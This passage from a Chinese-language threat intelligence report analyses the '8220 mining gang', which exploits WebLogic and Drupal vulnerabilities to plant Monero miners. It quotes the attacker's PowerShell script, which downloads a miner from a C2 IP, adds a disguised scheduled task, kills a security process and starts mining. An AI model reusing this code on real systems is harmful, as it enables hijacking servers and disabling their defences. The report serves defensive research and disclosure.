 并且360威胁情报中心推测该团伙是利用Docker进行C2服务器自动化部署工作，导致这些C2统一使用8220号端口与木马进行通信。因此**360****威胁情报中心将该团伙命名为“8220****挖矿团伙”**：

[![](https://p1.ssl.qhimg.com/t0175e980336939331a.png)](https://p1.ssl.qhimg.com/t0175e980336939331a.png)

运行在C2服务器8220端口上的Apache服务

### 攻击活动时间线

通过对关联信息的整理归纳，我们绘制了过去一年与该团伙相关的攻击活动的时间图：

[![](https://p0.ssl.qhimg.com/t01418bb4dcd2523331.png)](https://p0.ssl.qhimg.com/t01418bb4dcd2523331.png)

活动图中的时间顺序仅为我们发现该团伙最早的活动时间，并不表示该团伙只在此时间段利用此漏洞。相应的，此图直观体现了该团伙积累了较多的网络攻击武器。我们有理由相信，还有大量关于该团伙的未被曝光的攻击事件。

### 攻击手法

360威胁情报中心将溯源关联到的“8220挖矿团伙”近年来所有的攻击事件和攻击手法逐一进行分析。我们详细介绍其中的两类漏洞利用相关的攻击事件，其他的以列表的形式整理在后文。

### WebLogic漏洞攻击事件（清理同类挖矿木马保证一家独大）

通过360威胁情报中心数据平台，我们发现了一起利用WebLogic漏洞进行入侵服务器并进行挖矿的攻击活动。在此活动中，攻击者使用了相同的钱包地址，因此我们也将其确定为“8220挖矿团伙”所为。

攻击者利用WebLogic XMLDecoder反序列化漏洞（编号CVE-2017-10271[4]）攻击服务器，并获取服务器控制权限，进而植入挖矿木马进行挖矿。该漏洞出现在WebLogic Server Security Service中，影响WebLogic Server 12.2.1.2.0及其之前的版本。利用此漏洞，攻击者下载名为2.ps1的PowerShell脚本并执行。脚本进而会下载挖矿木马程序，进行挖矿活动。同时，该脚本也会终止其他挖矿程序运行，保证自己独占CPU资源。

PowerShell脚本会从192.99.142.232:8220服务器下载xmrig.exe挖矿程序，以yam.exe的文件名保存在本地，通过cmd.exe启动挖矿程序，同时传入矿池地址，钱包地址，密码信息：

```
$ne = $MyInvocation.MyCommand.Path
$nurl = "http://192.99.142.232:8220/xmrig.exe"
$noutput = "$env:TMP\yam.exe"
$vc = New-Object System.Net.WebClient
$vc.DownloadFile($nurl,$noutput)
copy $ne $HOME\SchTask.ps1
copy $env:TMP\yam.exe $env:TMP\pe.exe
 
SchTasks.exe /Create /SC MINUTE /TN "Update service for Oracle productsa" /TR "PowerShell.exe -ExecutionPolicy bypass -windowstyle hidden -noexit -File 
...
cmd.exe /C taskkill /IM 360rps.exe /f
cmd.exe /C $env:TMP\pe.exe --donate-level=1 -k -a cryptonight -o stratum+tcp://monerohash.com:5555 -u 41e2vPcVux9NNeTfWe8TLK2UWxCXJvNyCQtNb69YEexdNs711jEaDRXWbwaVe4vUMveKAzAiA4j8xgUi29TpKXpm3zKTUYo -p x
```

### Drupal漏洞利用

通过对C2地址的深度挖掘，我们发现一篇今年4月国外安全厂商发布的报告[5]。报告中提到了两种利用Drupal远程任意代码执行漏洞（编号CVE-2018-7600[6]）的挖矿木马程序，通过钱包地址的关联，确定其中一种挖矿木马也是“8220挖矿团伙”所拥有。
